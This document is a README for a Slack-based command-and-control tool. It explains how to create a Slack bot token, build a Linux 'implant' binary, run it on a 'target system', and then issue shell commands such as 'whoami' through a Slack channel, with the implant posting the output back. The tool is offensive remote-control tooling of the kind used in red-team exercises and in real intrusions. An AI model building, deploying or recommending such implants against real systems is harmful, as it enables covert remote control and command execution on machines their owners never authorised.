 # Slack C2bot

Slack C2bot that executes commands and returns the output.

## Setup

Install Golang and requirements:

```
sudo apt install golang-go
sudo apt install git
```

Install the Slack library:

```
go get "github.com/nlopes/slack"
```

## Usage

```
./build.sh [$CHANID] [$SLACKTOKEN]
```

The build script will generate a UUID for your bot.

If you dont already have a workspace you will need to [create one](https://slack.com/create).

Once you have a workspace, open a channel and note the channel id. This can be found by opening the channel in your browser. The uri is /messages/channelid/.

Save this as $CHANID.

Next, you will need to add a bot to your workspace. This can be done using the following steps:

- [Open https://api.slack.com/](https://api.slack.com/)
- Click Start building. Enter the name of the bot and the workspace.
- On the left menu listing, click: OAuth & Permissions
- Scroll down to Scopes. Add channels:history and chat:write:bot permissions.
- Click save.
- Scroll to the top of the page and click Install App to Workspace.
- Click authorize on the new popup.


Slack OAuth Token. This can be found by opening Your Apps -> Click the bot -> OAuth & Permissions.

Save this as $SLACKTOKEN.

Run the build script.

```
./build.sh $CHANID $SLACKTOKEN
```

Run the Slack c2 bot on the target system.

```
./output/lin_implant.bin
```

Open the Slack channel.

After the bot checks-in, you can task the bot to execute a command using the
following syntax:

```
[UUID] run whoami
```

The bot will post the output. 
